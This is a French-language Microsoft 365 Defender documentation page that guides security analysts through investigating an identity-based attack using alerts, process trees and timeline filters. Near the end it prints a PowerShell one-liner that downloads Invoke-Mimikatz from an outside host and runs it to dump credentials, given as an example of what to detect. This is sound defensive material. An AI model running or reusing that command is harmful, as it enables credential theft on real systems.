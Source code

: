 ```yaml
---
title: Exemple d’attaque basée sur l’identité
description: Analyse pas à pas d’une attaque basée sur l’identité.
keywords: incidents, alertes, examiner, corrélation, attaque, ordinateurs, appareils, utilisateurs, identités, identité, boîte aux lettres, courrier électronique, 365, microsoft, m365, réponse aux incidents, cyber-attaque
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: josephd
author: JoeDavies-MSFT
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 204530b8b4a87215053ddcb0434e40e45271da3d
ms.sourcegitcommit: 4fb1226d5875bf5b9b29252596855a6562cea9ae
ms.translationtype: MT
ms.contentlocale: fr-FR
ms.lasthandoff: 06/08/2021
ms.locfileid: "52841005"
---
```

# <a name="example-of-an-identity-based-attack"></a>Exemple d’attaque basée sur l’identité

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**S’applique à :**
- Microsoft 365 Defender

Microsoft Defender pour l’identité peut vous aider à détecter les tentatives malveillantes de compromission des identités dans votre organisation. Étant donné que Defender pour l’identité s’intègre à Microsoft 365 Defender, les analystes de sécurité peuvent avoir une visibilité sur les menaces provenant de Defender for Identity, telles que les tentatives d’élévation de privilège Netlogon suspectes.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Analyse de l’attaque dans Microsoft Defender pour l’identité

Microsoft 365 Defender permet aux analystes de filtrer les alertes par source de détection sous **l’onglet Alertes** de la page Incidents. Dans l’exemple suivant, la source de détection est filtrée sur **Defender for Identity**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Exemple de filtrage de la source de détection pour Defender for Identity":::

La sélection de **l’alerte d’attaque** suspectée de surpassage de hachage permet d’Microsoft Cloud App Security page qui affiche des informations plus détaillées. Vous pouvez toujours en savoir plus sur une alerte ou une attaque en sélectionnant En savoir plus sur ce **type** d’alerte pour lire une [description](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) de l’attaque ainsi que des suggestions de correction.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Exemple d’alerte d’attaque par passe-viapasse suspectée"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Étude de la même attaque dans Microsoft Defender pour le point de terminaison

Un analyste peut également utiliser Defender pour point de terminaison pour en savoir plus sur l’activité sur un point de terminaison. Sélectionnez l’incident dans la file d’attente des incidents, puis sélectionnez **l’onglet Alertes.** À partir de là, ils peuvent également identifier la source de détection. Une source de détection étiquetée comme PEPT signifie Endpoint Detection and Response, qui est Defender for Endpoint. À partir de là, l’analyste sélectionne une alerte détectée par PEPT.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Exemple de détection et de réponse de point de terminaison dans Defender pour le point de terminaison"::: 

La page d’alerte affiche diverses informations pertinentes telles que le nom de l’appareil, le nom d’utilisateur, l’état de l’examen automatique et les détails de l’alerte. L’article d’alerte représente une représentation visuelle de l’arborescence de processus. L’arborescence de processus est une représentation hiérarchique des processus parents et enfants liés à l’alerte.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Exemple d’arborescence de processus d’alerte dans Defender pour le point de terminaison"::: 

Chaque processus peut être étendu pour afficher des détails supplémentaires. Les détails qu’un analyste peut voir sont les commandes réelles qui ont été entrées dans le cadre d’un script malveillant, les adresses IP de connexion sortante et d’autres informations utiles.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Exemple de détails de processus dans Defender pour le point de terminaison":::
 
En sélectionnant **Voir dans la** chronologie, un analyste peut aller encore plus loin pour déterminer l’heure exacte de la compromission. 

Microsoft Defender pour le point de terminaison peut détecter de nombreux fichiers et scripts malveillants. Toutefois, en raison de nombreuses utilisations légitimes pour les connexions sortantes, PowerShell et l’activité de ligne de commande, certaines activités seraient considérées comme étant anodins jusqu’à ce qu’elles créent un fichier ou une activité malveillante. Par conséquent, l’utilisation de la chronologie permet aux analystes de mettre l’alerte en contexte avec l’activité qui l’entoure afin de déterminer la source ou l’heure d’origine de l’attaque qui autrement est masquée par l’activité courante du système de fichiers et des utilisateurs. 

Pour ce faire, un analyste commence au moment de la détection de l’alerte (en rouge) et fait défiler vers le bas dans le temps pour déterminer à quel moment l’activité d’origine qui a conduit à l’activité malveillante a réellement commencé. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Exemple de démarrage au moment de la détection de l’alerte"::: 

Il est important de comprendre et de distinguer les activités courantes telles que les connexions Windows Update, le trafic d’activation de logiciels de confiance Windows, d’autres connexions communes aux sites Microsoft, l’activité Internet tierce, l’activité Microsoft Endpoint Configuration Manager et toute autre activité faible contre les activités suspectes. Une façon d’y parvenir consiste à utiliser des filtres de chronologie. Il existe de nombreux filtres qui peuvent mettre en évidence une activité spécifique tout en filtrant tout ce que l’analyste ne souhaite pas afficher. 

Dans l’image ci-dessous, l’analyste a filtré pour afficher uniquement les événements réseau et de traitement. Cela permet à l’analyste de voir les connexions réseau et les processus qui entourent l’événement où Bloc-notes a établi une connexion avec une adresse IP, ce que nous avons également vu dans l’arborescence des processus. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Exemple de la façon Bloc-notes utilisé pour établir une connexion sortante malveillante"::: 

Dans cet événement particulier, Bloc-notes utilisé pour établir une connexion sortante malveillante. Toutefois, souvent, les personnes malveillantes utilisent simplement iexplorer.exe pour établir des connexions pour télécharger une charge utile malveillante, car en règle iexplorer.exe processus sont considérés comme une activité régulière du navigateur web.

Un autre élément à rechercher dans la chronologie serait l’utilisation de PowerShell pour les connexions sortantes. L’analyste recherche les connexions PowerShell réussies avec des commandes telles qu’une connexion sortante à un site web hébergeant `IEX (New-Object Net.Webclient)` un fichier malveillant. 

Dans l’exemple suivant, PowerShell a été utilisé pour télécharger et exécuter Mimikatz à partir d’un site web :

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Un analyste peut rapidement rechercher des mots clés en tapant le mot clé dans la barre de recherche pour afficher uniquement les événements créés avec PowerShell. 

## <a name="next-step"></a>Étape suivante

Consultez le [chemin d’accès de l’enquête](first-incident-path-phishing.md) sur le hameçonnage.

## <a name="see-also"></a>Voir aussi

- [Vue d’ensemble des incidents](incidents-overview.md)
- [Gérer des incidents](manage-incidents.md)
- [Examiner des incidents](investigate-incidents.md)
